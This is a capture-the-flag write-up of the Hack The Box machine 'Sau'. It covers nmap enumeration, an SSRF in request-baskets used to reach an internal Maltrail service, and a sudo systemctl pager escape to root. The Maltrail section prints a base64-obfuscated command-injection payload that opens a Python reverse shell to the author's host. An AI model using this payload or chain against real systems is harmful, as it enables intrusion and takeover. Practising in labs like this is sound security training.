









## Sau (Seasonal HTB)
- Linux 
- Easy

## Overview

This box was honestly very interesting, with its method of traversal to exploit the machine certainly being unique. It had an enjoyable difficulty to it, though the path to root was a bit underwhelming in my opinion. 

## Configuration

For this, I will be using a Kali Linux machine to tackle the box
```bash
export IP=10.10.11.224
```

## Enumeration
### Nmap Scan
```
Nmap scan report for 10.10.11.224
Host is up, received conn-refused (0.0040s latency).
Scanned at 2023-07-12 23:39:10 EDT for 87s

PORT      STATE SERVICE REASON  VERSION
22/tcp    open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDdY38bkvujLwIK0QnFT+VOKT9zjKiPbyHpE+cVhus9r/6I/uqPzLylknIEjMYOVbFbVd8rTGzbmXKJBdRK61WioiPlKjbqvhO/YTnlkIRXm4jxQgs+xB0l9WkQ0CdHoo/Xe3v7TBije+lqjQ2tvhUY1LH8qBmPIywCbUvyvAGvK92wQpk6CIuHnz6IIIvuZdSklB02JzQGlJgeV54kWySeUKa9RoyapbIqruBqB13esE2/5VWyav0Oq5POjQWOWeiXA6yhIlJjl7NzTp/SFNGHVhkUMSVdA7rQJf10XCafS84IMv55DPSZxwVzt8TLsh2ULTpX8FELRVESVBMxV5rMWLplIA5ScIEnEMUR9HImFVH1dzK+E8W20zZp+toLBO1Nz4/Q/9yLhJ4Et+jcjTdI1LMVeo3VZw3Tp7KHTPsIRnr8ml+3O86e0PK+qsFASDNgb3yU61FEDfA0GwPDa5QxLdknId0bsJeHdbmVUW3zax8EvR+pIraJfuibIEQxZyM=
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEFMztyG0X2EUodqQ3reKn1PJNniZ4nfvqlM7XLxvF1OIzOphb7VEz4SCG6nXXNACQafGd6dIM/1Z8tp662Stbk=
|   256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICYYQRfQHc6ZlP/emxzvwNILdPPElXTjMCOGH6iejfmi
55555/tcp open  unknown syn-ack
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Thu, 13 Jul 2023 03:39:41 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Thu, 13 Jul 2023 03:39:16 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Thu, 13 Jul 2023 03:39:16 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.94%I=7%D=7/12%Time=64AF71E4%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html;\
SF:x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Thu,\x2013\x20Jul\x20
SF:2023\x2003:39:16\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\"/w
SF:eb\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Re
SF:quest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x
SF:20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x202
SF:00\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Thu,\x2013\x20Jul\x20
SF:2023\x2003:39:16\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest
SF:,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;
SF:\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request"
SF:)%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20tex
SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20
SF:Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCon
SF:tent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\
SF:r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x20400\
SF:x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nC
SF:onnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,67,"
SF:HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20c
SF:harset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(K
SF:erberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text
SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20R
SF:equest")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\n
SF:Content-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Options
SF::\x20nosniff\r\nDate:\x20Thu,\x2013\x20Jul\x202023\x2003:39:41\x20GMT\r
SF:\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20nam
SF:e\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}\$\
SF:n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:
SF:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20
SF:Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request
SF:\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20clo
SF:se\r\n\r\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 23:40
Completed NSE at 23:40, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 23:40
Completed NSE at 23:40, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 23:40
Completed NSE at 23:40, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 87.85 seconds
```

**Note**: After a while, I decided to conduct a separate nmap scan, which produced different results from my initial `rustscan`. 

I would assume this was caused by reverse shell connections opening up ports.
As such, I'll be using information gathered from that scan in the following sections.


### Second Nmap Scan
```
┌──(kali㉿kali)-[~/Desktop/htb/sau]
└─$ nmap -sC -sV -p- $IP
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-14 13:46 EDT
Nmap scan report for 10.10.11.224
Host is up (0.029s latency).
Not shown: 65522 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
8338/tcp  filtered unknown
10186/tcp filtered unknown
16327/tcp filtered unknown
18364/tcp filtered unknown
22234/tcp filtered unknown
27759/tcp filtered unknown
41624/tcp filtered unknown
42012/tcp filtered unknown
42420/tcp filtered unknown
55122/tcp filtered unknown
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Fri, 14 Jul 2023 17:47:31 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Fri, 14 Jul 2023 17:47:06 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Fri, 14 Jul 2023 17:47:06 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.94%I=7%D=7/14%Time=64B18A18%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html;\
SF:x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Fri,\x2014\x20Jul\x20
SF:2023\x2017:47:06\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\"/w
SF:eb\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Re
SF:quest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x
SF:20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x202
SF:00\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Fri,\x2014\x20Jul\x20
SF:2023\x2017:47:06\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest
SF:,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;
SF:\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request"
SF:)%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20tex
SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20
SF:Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCon
SF:tent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\
SF:r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x20400\
SF:x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nC
SF:onnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,67,"
SF:HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20c
SF:harset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(K
SF:erberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text
SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20R
SF:equest")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\n
SF:Content-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Options
SF::\x20nosniff\r\nDate:\x20Fri,\x2014\x20Jul\x202023\x2017:47:31\x20GMT\r
SF:\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20nam
SF:e\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}\$\
SF:n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:
SF:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20
SF:Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request
SF:\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20clo
SF:se\r\n\r\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 108.89 seconds

```

## Request Baskets

On first impression, it seems like a content delivery service that allows for creating of repositories to store items. 



We are allowed to create baskets within the application, after which we are provided a token for our given basket. In my case, the token for Basket `0d7oriw` is `BrbaLyGFdBKBzRu-9KfWzRHzfJ8PttsHqQETdf2P4-1p`



We then reach a page that shows that we can send requests over to the specified basket, which will eventually be shown on the basket. 



## Discovery of CVE-2023-27163

After looking at the service, I noticed that there is a package and version number attached at the footer of the webpage.



Doing some research reveals that this package version is vulnerable to SSRF, with the main attack point being the `/api/baskets/{name}` endpoint. 

")

With this information, I wrote a simple Python script that generates an endpoint with my desired settings. In which I experimented with different request arguments and parameters.

On `basket_request.py`
```python
import requests

url = 'http://10.10.11.224:55555/api/baskets/pineapple'

payload = {
  "forward_url": "http://127.0.0.1:80", # I experimented with this value for the most part
  "proxy_response": False,
  "insecure_tls": False,
  "expand_path": True,
  "capacity": 250
}

r = requests.post(url, json=payload)
print(r.text)

```

## Further Enumeration

After exhausting through all the port and finding nothing within the header, I decided to attempt enabling the "proxy_response" item to see what do I get whilst looking through the list of ports I enumerated. 

With a stroke of luck, on `http://127.0.0.1:80`, there seemed to be a `Maltrail` service that is running. And with that, we are given a version number of the service, `v0.53` 

 dashboard")

Looking up the service, it seems that there is an OS injection vulnerability with the username parameter, on the `login` endpoint.

")

With `request-baskets` acting as a proxy to send our malicious requests, we can remotely send our payloads to our target machine, located at `http://127.0.0.1:8338/login`. We can do so by changing the `forward_url` to this location and sending our payload to `http://10.10.11.224/pineapple`






However when I used a basic `/bin/bash` payload, I do not get any connections to the server. 
Looking through `MalTrail`'s source code, I noticed that they were using `python` as their main language.

As such, I used a Python3 payload, which has been encoded in Base64 to prevent `"` and `'` quotes from effecting the request data that's being sent to the server. And it work!!

**Payload sent to the server**
```bash
username=;`echo -n 'ZXhwb3J0IFJIT1NUPSIxMC4xMC4xNC4zOCI7ZXhwb3J0IFJQT1JUPTEzMzc7cHl0aG9uMyAtYyAnaW1wb3J0IHN5cyxzb2NrZXQsb3MscHR5O3M9c29ja2V0LnNvY2tldCgpO3MuY29ubmVjdCgob3MuZ2V0ZW52KCJSSE9TVCIpLGludChvcy5nZXRlbnYoIlJQT1JUIikpKSk7W29zLmR1cDIocy5maWxlbm8oKSxmZCkgZm9yIGZkIGluICgwLDEsMildO3B0eS5zcGF3bigiL2Jpbi9iYXNoIikn'| base64 -d | /bin/bash`
```



## Path to Root

Doing basic enumeration with `sudo -l`, the `/usr/bin/systemctl status trail.service` seems to be executable by anyone without password.  



Looking at GTFObins for `systemctl` for sudo, we can notice that (c) would be the the most applicable as we would be invoking a default pager with the `systemctl` binary.


As such, running `!sh` provided a root shell and from there I managed to obtain the root flag!

